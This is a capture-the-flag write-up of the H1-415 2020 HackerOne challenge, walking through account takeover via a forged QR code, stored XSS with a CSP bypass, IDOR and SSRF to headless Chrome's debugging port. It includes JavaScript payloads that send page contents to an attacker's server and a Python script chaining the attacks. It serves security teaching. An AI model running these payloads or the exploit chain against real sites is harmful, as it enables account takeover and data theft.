




# H1-415 2020 CTF Writeup

After several hours I was able to get the secret document with the flag and be the first to solve the CTF. Here I will detail each step that I took to get the flag, further I will explain wrong assumptions that I had and a nice CSP bypass that I was not aware of. Finally, as a second challenge, I wrote an exploit chaining all the vulnerabilities together to get the flag in just one execution, being the exploit successfully in only 40 seconds (execution time); also I will explain some parts of the exploit code.

The following infographic illustrates the steps taken in my solution.



As always, the CTF begins with a tweet:



There is also a bonus:



Going to the [h1-415-ctf](https://hackerone.com/h1-415-ctf) program page in HackerOne we can see that the web application in scope for this CTF is https://h1-415.h1ctf.com. The initial step is to perform reconnaissance to map all the features of “My Docz Converter”. After, we can almost describe all the application through the endpoints:

* /login – Normal login feature, with username/e-mail and password;
* /register – Sign up flow ending with a generated QRCode to recover the account;
* /recover – Log in using QRCode;
* /converter – After logged in we can convert images to PDF;
* /support – Normal user doesn’t have access to this feature;
* /documents – List all converted documents;
* /settings – Show name, e-mail and username. Also, there is a hidden user_id and we can change our name with a POST request;
* /logout – Just logout.

Now we can understand the application and build a plan for our final goal: Jobert´s secret document.

Let's take the first step, which is create an account.



Immediately after signing up we receive a QRCode and the information that: _"... save this QRCode if you ever need to recover your account in the future."_. Very suspicious... We need to see how it works. After use this QRCode in `/recover`, automagically we are logged in as our user. Therefore, if we forge a QRCode for other user are we able to do an account takeover?

## Forged QRCode

We need to take a look in what this QRCode really is.

```python
from pyzbar.pyzbar import decode
from PIL import Image
print(decode(Image.open('qrcode.png')))
```

`[Decoded(data=b'6d616e6f656c744077656172656861636b65726f6e652e636f6d:92ec79604a0eb52293983925333efc631a79cf0a29b9d1b4d061ef254d62af67c4cc5b28841279d5cb7517d3784d18795fe0c2e4990220fa4b979ae8a020463eb8903d133b4424f2abf440a0b36b980f39b980fd7b6ac7a321878c199378fd042495495194d8970f95d9d585a2e9f0f550efdfdf050149bcc4cc7473137b945a', type='QRCODE', rect=Rect(left=40, top=40, width=690, height=690), polygon=[Point(x=40, y=40), Point(x=41, y=730), Point(x=729, y=729), Point(x=730, y=41)])]`

Looks like some hex...

```python
>>> from binascii import unhexlify
>>> data = '6d616e6f656c744077656172656861636b65726f6e652e636f6d:92ec79604a0eb52293983925333efc631a79cf0a29b9d1b4d061ef254d62af67c4cc5b28841279d5cb7517d3784d18795fe0c2e4990220fa4b979ae8a020463eb8903d133b4424f2abf440a0b36b980f39b980fd7b6ac7a321878c199378fd042495495194d8970f95d9d585a2e9f0f550efdfdf050149bcc4cc7473137b945a'
>>> unhexlify(data.split(':')[0])
b'manoelt@wearehackerone.com'
>>> unhexlify(data.split(':')[1])
b'\x92\xecy`J\x0e\xb5"\x93\x989%3>\xfcc\x1ay\xcf\n)\xb9\xd1\xb4\xd0a\xef%Mb\xafg\xc4\xcc[(\x84\x12y\xd5\xcbu\x17\xd3xM\x18y_\xe0\xc2\xe4\x99\x02 \xfaK\x97\x9a\xe8\xa0 F>\xb8\x90=\x13;D$\xf2\xab\xf4@\xa0\xb3k\x98\x0f9\xb9\x80\xfd{j\xc7\xa3!\x87\x8c\x19\x93x\xfd\x04$\x95IQ\x94\xd8\x97\x0f\x95\xd9\xd5\x85\xa2\xe9\xf0\xf5P\xef\xdf\xdf\x05\x01I\xbc\xc4\xccts\x13{\x94Z'
```

First, is user's e-mail address then a colon and some more hex, but this time not in ASCII range, maybe some kind of hash? This give us some insights that could involve crypto, perhaps Padding Oracle or even Hash Length Extension? Before going deep in this crypto thing, we should test the QRCode creation process and try to somehow get a valid QRCode for any e-mail address. Looking at the source code of the front page we can easily identify Jobert's e-mail: `data-email="jobert@mydocz.cosmic"`.

#### What about Mass Assignment?

What if we send two parameters and the app checks one and saves the other? To test mass assignment, we just have to send two post parameters with the same name or as an array.

Sending:
```
name=manoelt&email=manoelt%40wearehackerone.com&email=jobert@mydocz.cosmic&username=manoelt&password=secretpassword&password-confirmation=secretpassword&_csrf_token=8947139a5209c08aec2dbff06f5ab5d0c8a09571
```
We receive a QRCode with the e-mail address from the first parameter and the same happens in our settings page. Thus, second email parameter is ignored, no luck here. Testing email parameter as an array give us `HTTP/1.1 500 INTERNAL SERVER ERROR` so maybe app is not expecting an array and raise an exception.

#### Testing e-mail filter

Time to test e-mail filter and check if in some way we can sign up with Jobert's e-mail. Below some e-mails address to test:

```
email@email.com,jobert@mydocz.cosmic
email@email","jobert@mydocz.cosmic
email@email.com:jobert@mydocz.cosmic
email@email.com%0d%0ajobert@mydocz.cosmic
%0d%0ajobert@mydocz.cosmic
%0ajober@mydocz.cosmic
jobert@mydocz.cosmic%0d%0a
jober@mydocz.cosmic%0a
jobert@mydocz.cosmic%0d
jobert@mydocz.cosmic%00
```

From those tests we can notice that special chars are not accepted in the beginning, but they are accepted at the end and they are not filtered out. Maybe the regex for e-mail is not using `$` to ensure the end of line. Other good set of chars to test is `{{}}` for template injection and `<>` for HTML injection/XSS.

```
jobert@mydocz.cosmic{{7*7}}
jobert@mydocz.cosmic{{7+7}}
jobert@mydocz.cosmic<77>
```

What? Signing up with `jobert@mydocz.cosmic{{7*7}}` as e-mail and trying to recover using the QRCode returned, we get: `Couldn't recover account: jobert@mydocz.cosmic7*7`!!! The same happens for `<>`. What if we just create an account using `jobert@mydocz.cosmic{{}}` ?

## Account Takeover 

```
POST /register HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 176

name=manoelt&email=jobert%40mydocz.cosmic{{}}&username=manoelt&password=secretpassword&password-confirmation=secretpassword&_csrf_token=b793ddd4377d1a7b12cd8c4260d6a35e3586f522
```

After this request we receive a nice QRCode with `jobert@mydocz.cosmic` in the e-mail address part and doing the recover process it led us to an Account Takeover. 


We are now Jobert!

We can infer that the application works something like this:
* Regex to verify if e-mail is valid
* Query database to check for duplicates
* Remove bad chars, like `{{}}` and `<>`
* INSERT into database

## XSS

After logging as Jobert, the differences in the application is that we now have access to the support feature, which looks like a chat, "No documents" in documents and converter disabled. Here, a tip: If you have ever played a CTF, you already know that when you face a chat or support, the first thing to do is to try XSS/HTML. So, sending just `` the application sends a GET request (XHR):

```
GET /support/chat?message=%3Cimg%20src=%22our_server%22%3E HTTP/1.1
```
which returns a json and a new Set-Cookie header with more chars in the cookie. At the same time the browser (JS) inserts the HTML (here an image) and the GET response into the DOM:


We can easily identify the vulnerability here as `support.min.js` is doing:
```javascript
$("#chat-div").append(decodeURIComponent('<h3><span class="badge badge-primary">'+t+"</span></h3>"))
```
where `t` is our message.

Fine! But after all only us (our browser) requested the image URL. Isn't there any support to read our message? We should read the page source code:

```html
<form action="/support/feedback" method="POST">
  <div id="review-modal-body" class="modal-body mt-3">
    <p>Please let us know if our support agent was helpful.</p>
    <span id="star-1" data-rating=1 class="fa fa-star review-star"></span>
    <span id="star-2" data-rating=2 class="fa fa-star review-star"></span>
    <span id="star-3" data-rating=3 class="fa fa-star review-star"></span>
    <span id="star-4" data-rating=4 class="fa fa-star review-star"></span>
    <span id="star-5" data-rating=5 class="fa fa-star review-star"></span>
  </div>
  <p id="report-message" class="text-muted mb-4"></p>
  <div class="modal-footer">
    <input id="rating-input" type="hidden" name="rating" value="3">
    <input type="hidden" name="_csrf_token" value="af1e63b23152ae96de29b7805c3a9908d7a66390">
    <button type="button" class="btn btn-outline-secondary" data-dismiss="modal">Ignore</button>
    <button id="review-button" type="submit" class="btn btn-outline-primary" disabled>Submit</button>
  </div>
</form>
```

Ok, there is some kind of feedback form that is hidden (faded). Reading `support.min.js` again we can identify a `showReviewModal()` function that shows the modal after type _finish_ or _quit_ on the chat. Doing that we can now send a feedback, but it seems that to have the message read by the "team" we need to choose only one star as the rating. 

```javascript
1===rating&&$("#report-message").text("We're sorry about that. Our team will review this conversation shortly.")
```

Clicking to send the feedback a POST request is made:

```
POST /support/feedback HTTP/1.1
...
rating=1&_csrf_token=6956095054a6c2eb90ec6d6f90ba8c8a1367844a
```

And we get a hit in our server:

```
Connection from [18.218.90.126] port 80 [tcp/*] accepted (family 2, sport 53602)
GET / HTTP/1.1
Host: our_server
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
```

Time to run some Javascript?

## Content Security Policy Bypass

Not that easy! There is a Content Security Policy (CSP) in the application that won't make it easy to just `<script>alert(1);</script>` FTW: 

```
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' https://raw.githack.com/mattboldt/typed.js/master/lib/; img-src data: *
```

A good first step here is to see what [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/) have to say about this CSP:


Google points out that if there is JSONP, Angular or user uploaded files the `script-src self` could be problematic. Until now we had not seen any of these. Moreover, for `script-src https://raw.githack.com/mattboldt/typed.js/master/lib/` Google ponders to make sure that this URL doesn't serve JSONP replies or Angular libraries and indicates that all other rules are safe.

Some questions arises here:
* What is this Githack?
* Does typed.js have some malicious code in master branch?

For the first questions we can get the answer just going to http://raw.githack.com/ and understand that this _serves raw files directly from GitHub, Bitbucket or GitLab with proper Content-Type headers_. Maybe we can find a bug there? No! It is **Out of Scope**! Also, after some investigation we can conclude that typed.js does have nothing interesting for us.

### What? Is it an 0day? 

One thing to take note is that after logout the application redirects us to `/login?return_url=/converter`. Furthermore, this `return_url` can be used in other endpoints and when logged in the application redirects immediately, in other words, this is an open redirect.

Are you thinking with me?

1. `script-src self` allows code from `https://h1-415.h1ctf.com`;
1. There is an open redirect;
1. And what if I just use `<script src="https://h1-415.h1ctf.com/documents?return_url=http://MY_SEVER/malicious.js></script>"`?

```
Content Security Policy: Blocked http://MY_SERVER/malicous.js (“script-src”).
The resource from “https://h1-415.h1ctf.com/documents?return_url=http://MY_SERVER/malicous.js” was blocked due to MIME type mismatch (“text/html”) (X-Content-Type-Options: nosniff).

```

Nooo! What a sad message! I told this to a friend (@pimps) and he replied saying that in his computer it works! WHAT? It is a lie, for sure! Then he sent me a screenshot: Using Chrome! Oh my god! I am doing it wrong, how am I trying to hack something using a browser other than the victim? Do you remember the User-Agent? Headless Chrome! Ok, let's test this on Chrome... Perfect, it really works... But, why?

Ok, time to deploy some docker with PHP and test this "Chrome feature":

`docker run -d -p 80:80 --name my-apache-php-app -v "$PWD":/var/www/html php:7.2-apache`

File csp.php:
```php
<?php
header("Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' https://raw.githack.com/mattboldt/typed.js/master/lib/; img-src data: *");
?>
<html><body><?= $_GET['s'] ?></body></html>
```

File redir.php
```php
<?php
header('Location: ' . $_GET['r']);
header('Content-Type: text/html; charset=utf-8');
header('X-Frame-Options: SAMEORIGIN');
header('X-XSS-Protection: 1; mode=block');
header('X-Content-Type-Options: nosniff');
```

Access `http://my_server/csp.php?s=%3Cscript%20src=%22http://my_server/redir.php%3fr=https://raw.githack.com/myuser/myrepo/master/malicious.js%22%3E%3C/script%3E` and then IT WORKS! Is it an 0day? I am not that CSP bypass expert, so just asked another friend and he sent me the specification:

https://www.w3.org/TR/CSP11/#source-list-paths-and-redirects
> 4.2.2.3. Paths and Redirects

> To avoid leaking path information cross-origin (as discussed in **Egor Homakov’s** Using Content-Security-Policy for Evil), the matching algorithm ignores the path component of a source expression if the resource being loaded is the result of a redirect. For example, given a page with an active policy of img-src example.com not-example.com/path:

>    Directly loading https://not-example.com/not-path would fail, as it doesn’t match the policy.
>    Directly loading https://example.com/redirector would pass, as it matches example.com.
>    Assuming that https://example.com/redirector delivered a redirect response pointing to https://not-example.com/not-path, the load would succeed, as the initial URL matches example.com, and the redirect target matches not-example.com/path if we ignore its path component. 

>This restriction reduces the granularity of a document’s policy when redirects are in play, which isn’t wonderful, but given that we certainly don’t want to allow brute-forcing paths after redirects, it seems a reasonable compromise.

Thanks, [Egor Homakov](https://twitter.com/homakov)!

Back to the CTF... Now we just have to send it as a chat message, store it in our cookie and then send a feedback, right? Wrong... it simply doesn't work for the backend. (And this took me some time...) The bot who reads our message is not logged in, so the open redirect just doesn't work. Time to find another bypass...

#### CSP Bypass with Path Traversal

Ok, maybe we can encode a path traversal and bypass this CSP, something like this: `https://raw.githack.com/mattboldt/typed.js/master/lib/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2four_user/our_repo/master/malicious.js` ? Unfortunately (? :D), browsers will normalize the path. But, it won't normalize if we just encode `/`, creating a payload like `https://raw.githack.com/mattboldt/typed.js/master/lib/..%2f..%2f..%2f..%2four_user/our_repo/master/malicious.js`. This is not a new trick, since 2016 @avlidienbrunn was playing with this: https://blog.0daylabs.com/2016/09/09/bypassing-csp/.

Time to build our payload to send it as a message and feedback: `<script src="https://raw.githack.com/mattboldt/typed.js/master/lib/..%252f..%252f..%252f..%252fmanoelt/some_repo/master/malicious.js"></script>`. What we should write inside this malicious.js?

First we can download all the innerHTML to take an idea what the backend is seeing:

```javascript
var i = document.createElement("img");
i.src = "http://my_server?leak="+encodeURIComponent(document.body.innerHTML);
```

From our support page the only thing different is this:
```html
<form action="" method="POST">
  ...
  <div class="form-group pt-1">
    <input type="submit" class="btn btn-outline-primary" value="Save user">
    <input type="button" class="btn btn-outline-danger ml-2" value="Ban user" disabled="">
  </div>
  ...
</form>
```

The ability to save and ban an user, but there is no action attribute in form tag. (Here I lost some time because I simply let the simple to be the last: getting document.location). Let's see what URL the bot is using to see our review.

```javascript
var i = document.createElement("img");
i.src = "http://my_server/?leak="+encodeURIComponent(document.location);
```

Sending this payload we get the hit:

```
18.218.90.126 - - [16/Jan/2020:18:44:50 +0000] "GET /?cookie=http%3A%2F%2Flocalhost%3A3000%2Fsupport%2Freview%2Fd66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c HTTP/1.1" 403 571 "http://localhost:3000/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36" "-"
```

Which give us another endpoint: `http://localhost:3000/support/review/d66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c`

## Improper Access Control

Going to `https://h1-415.h1ctf.com/support/review/d66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c` we can access what the bot (support/Headless Chrome) is seeing. More than that, there is no need to be authenticated to see this page.


Clicking on the `Save user` button makes the application do a POST request in this same endpoint.

```
POST /support/review/d66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

name=Jobert&user_id=2&_csrf_token=a19b1ddd74e4ab4f5a09de9848a953b570026f70
```

That returns `{"result":"can't update this user"}`. During the recon, this same param was seen in the `/settings` endpoint, so we can try an IDOR using an user_id from another account that we have control to check if we succeed. Doing that proves that we have an IDOR. Moreover, there is no filter in user's name param, thus allowing us to set everything we want, like HTML or JavaScript. 

## SSRF to Headless Chrome Remote Debugging

The last feature in the application is the converter, which allows us to upload an image (PNG or JPG) and save it as a PDF. We can note however that besides the imagem the converter also uses our user's name to create the PDF. Thus, as we can change the name to whatever we want, we can start doing the basics to see if we get a hit: ``.

```
18.218.90.126 - - [16/Jan/2020:19:10:00 +0000] "GET / HTTP/1.1" 403 571 "http://localhost:3000/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36" "-"
```

Nice! It is another Headless Chrome! This time let's first see what is the `document.location`:

```
18.218.90.126 - - [16/Jan/2020:19:13:00 +0000] "GET /?cookie=http%3A%2F%2Flocalhost%3A3000%2Fconverter%2Fc280534aabc4dcd875d73733f7752f9a64bc99857e78d87944db3c52c99a5759.jpg%3Fuser_name%3D%253Cscript%2520src%253D%2522https%253A%2F%2Fraw.githack.com%2Fmattboldt%2Ftyped.js%2Fmaster%2Flib%2F..%25252f..%25252f..%25252f..%25252fmyuser%2Fmyrepo%2Fmaster%2Fbla10.js%2522%253E%253C%2Fscript%253E HTTP/1.1" 403 571 "http://localhost:3000/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36" "-"
```
Cool! Maybe some code injection in the image's name? Or mass assignment again injecting paramenters? Or even Server Side Request Forgery? Let's try some iframe to see if it works...


Not so good. And doing so will limit us in so many browser's protections... What could be better to SSRF? Redirect! So, we already know that port 3000 is running the application, what about 80?

```javascript
<script>window.location="http://localhost";</script>
```

It works:


Would be awesome to get some AWS Metadata, but trying IPv4, IPv6 and DNS Rebinding doesn't give us anything... (Sometime thinking here, my last resort would be port scanning) Let's thinking... It is Headless Chrome, have all browsers protections, can't be something like `file://` that easily. Maybe we should read about the deploy process...

From: https://developers.google.com/web/updates/2017/04/headless-chrome
> Starting Headless (CLI)

> The easiest way to get started with headless mode is to open the Chrome binary from the command line. If you've got Chrome 59+ installed, start Chrome with the --headless flag:
```
chrome \
  --headless \                   # Runs Chrome in headless mode.
  --disable-gpu \                # Temporarily needed if running on Windows.
  --remote-debugging-port=9222 \
  https://www.chromestatus.com   # URL to open. Defaults to about:blank.
```

Cool! Trying port 9222 we get a result: `Inspectable WebContents`. How to use this? Reading https://chromedevtools.github.io/devtools-protocol/ we can find out that there is a `/json` endpoint. Our payload:

```javascript
<script>window.location = "http://localhost:9222/json";</script>
```


secret_document?!?!?!

## The Flag

We need to see this **Secret Document** and then _bragging rights_.

Going to `https://h1-415.h1ctf.com/documents/0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab` reveals the FLAG.


## Full Exploit FTW

Now that we know how to solve the CTF, what about try to do all the steps in one single exploit chaining all vulnerabilities?

[](http://www.youtube.com/watch?v=uNWVAgUK-6I)

Talk is cheap. Show me the code.

### Account Takeover

```python
def account_takeover():
    global session_jobert, csrf_jobert, CTF_URL, QRCODE_FILENAME
    
    print('[*] Signing up with jobert@mydocz.cosmic{{}} as e-mail address...')
    response_get_csrf = session_jobert.get(CTF_URL)
    csrf_jobert = response_get_csrf.cookies['_csrf_token']
    paramsPost = { "password" : "secretpassword", "password-confirmation" : "secretpassword", \
                "name" : "H1-415_FULL_EXPLOIT", "_csrf_token" : csrf_jobert, \
                "email": JOBERT_EMAIL ,"username":random_name()}
                
    response_acc_takeover = session_jobert.post(CTF_URL + '/register', data=paramsPost, verify=False)
    
    #print(response_acc_takeover.text)
    
    if response_acc_takeover.status_code == 200:
        b64_image = response_acc_takeover.text[response_acc_takeover.text.index('<img src="data:image/png;base64,')+32: \
                                               response_acc_takeover.text.index('" class="mx-20"')]
        
        qrcode_image = base64.b64decode(b64_image)
        saved_qrcode = open(QRCODE_FILENAME, 'wb')
        saved_qrcode.write(qrcode_image)
        saved_qrcode.close()
        
        print('[*] QRCode forged!')
        
        logout()
        
        recover_acc(csrf_jobert)
        print('[*] Successfully signed in as Jobert!')
```

### Upload XSS payload

```python
def deploy_XSS():
    global GITHUB_USER, XSS_PAYLOAD
    
    repo_name = create_repo()
    if repo_name is None:
        print('[X] Error while trying to create a Github repository')
        raise Exception
        
    dir_name = random_name()
    
    os.mkdir('./' + dir_name) # os raise exception if it fails
    os.chdir('./' + dir_name)
    
    file_name = random_name() + '.js'
    _file = open(file_name, 'w')
    _file.write(XSS_PAYLOAD)
    _file.close()
    
    repo_complete_name = GITHUB_USER + '/' + repo_name
    
    call('git init', shell=True)
    #call('git remote add origin https://github.com/' + repo_complete_name + '.git', shell=True)
    call('git remote add origin git@github.com:' + repo_complete_name + '.git', shell=True)
    call('git add ' + file_name, shell=True)
    call('git commit -m ' + file_name, shell=True)
    call('git push -q origin master', shell=True)
    
    # Cache file in githack
    full_file_path = repo_complete_name + '/master/' + file_name
    git_hack_url = 'http://raw.githack.com/' + full_file_path
    git_hack = requests.get(git_hack_url)
    
    if git_hack.text == XSS_PAYLOAD:
        print('[*] XSS payload uploaded to ' + git_hack_url)
    else:
        print('[X] Error while deploying XSS payload')
        raise Exception
        
    return full_file_path
```

### Open port 80 to leak review URL (Multithreading)

```python
def run_leak_server():
    global LOCAL_PORT, review_id
    
    l = listen(LOCAL_PORT)
    l.wait_for_connection()
    
    get_request = l.recvuntil('HTTP/1.1')
    leaked = re.findall('leak=(.*?) HTTP/1.1', str(get_request))[0]
    print('[*] Review document.location leaked: ' + leaked)
    l.recvuntil('\r\n\r\n')
    l.send('HTTP/1.1 200 OK\r\nConnection: Close\r\nContent-Type: plain/text\r\nContent-Length: 0\r\n\r\n')
    
    review_id = re.findall('review%2F(.*?)$', leaked)[0]
    print('[*] Review id: ' + review_id)
    
    l.close()
    
    return True
```

### Create a second user

```python
def create_second_acc():
    global session_second_acc, csrf_second, CTF_URL
    
    response_get_csrf = session_second_acc.get(CTF_URL)
    csrf_second = response_get_csrf.cookies['_csrf_token']
    sec_username = random_name()
    
    sec_acc_response = session_second_acc.post(CTF_URL + '/register', data={"password" : "secretpassword", \
                "password-confirmation" : "secretpassword", \
                "name" : "HERE_WILL_BE_MY_PAYLOAD", "_csrf_token" : csrf_second, \
                "email":random_name()+"@gimmemyflag.com" ,"username": sec_username}, verify=False)
    
    if sec_acc_response.status_code == 200:
        print('[*] Second user created: ' + sec_username)
    else:
        raise Exception()
        
    sec_acc_response = session_second_acc.get(CTF_URL + '/settings')
    
    if sec_acc_response.status_code == 200:
        sec_user_id = re.findall('"user_id" value="(.*?)"',sec_acc_response.text)[0]
        print('[*] Second user id: ' + sec_user_id)
        return sec_user_id
    else:
        raise Exception()
```

### Change second user's name to SSRF

```python
def update_name(user_id):
    global session_jobert, csrf_jobert, CTF_URL, review_id, XSS_SSRF
    
    update_response = session_jobert.post(CTF_URL + '/support/review/' + review_id, data={"user_id": user_id, \
                                            "name": XSS_SSRF, "_csrf_token": csrf_jobert}, verify=False)
    
    if update_response.status_code == 200:
        print('[*] Name changed.')
        return True
    else:
        raise Exception()
```

### Convert a doc to trigger SSRF

```python
def converter(img_name):
    global session_second_acc, csrf_second, CTF_URL

    converter_response = session_second_acc.post(CTF_URL + '/converter', \
                        files={"document":("imagem.png",open(img_name,'rb'),'image/png')},\
                        data={"_csrf_token":csrf_second},\
                        verify=False, allow_redirects=False)
    if converter_response.status_code == 302:
        print('[*] Sent a converter request.')
        return True
    else:
        raise Exception()
```

### Get secret document URL

```python
def get_last_document():
    global session_second_acc, CTF_URL
    
    print('[*] Getting the document...')
    
    doc_response = session_second_acc.get(CTF_URL + '/documents', verify=False)
    doc_url = re.findall('src="(.*?)"',doc_response.text)[0]
    doc_url = doc_url.replace('-thumb.png','')
    print('[*] Document URL: ' + doc_url)
    
    doc = session_second_acc.get(CTF_URL + doc_url, verify=False)
    open(REMOTE_DEBUG_FILENAME,'wb').write(doc.content)
    
    print('[*] Document saved locally as ' + REMOTE_DEBUG_FILENAME)
    return doc_url

def read_pdf(pdf_filename):
    with open(pdf_filename, "rb") as f:
        pdf = pdftotext.PDF(f)
    return pdf[0]
    
def find_secret_document_url(pdftext):
    secret_doc = re.findall('secret_document=(.*?).pdf"', pdftext)[0]
    return secret_doc
```

### Get the Flag

```python
def capture_the_flag(url):
    global session_jobert, CTF_URL
    
    flag_request = session_jobert.get(CTF_URL + '/documents/' + url, verify=False)
    open(FLAG_FILENAME, 'wb').write(flag_request.content)
    return read_pdf(FLAG_FILENAME)
```

Full exploit attached.

Thanks @pimps and @jespinhara for reviewing my writeup.
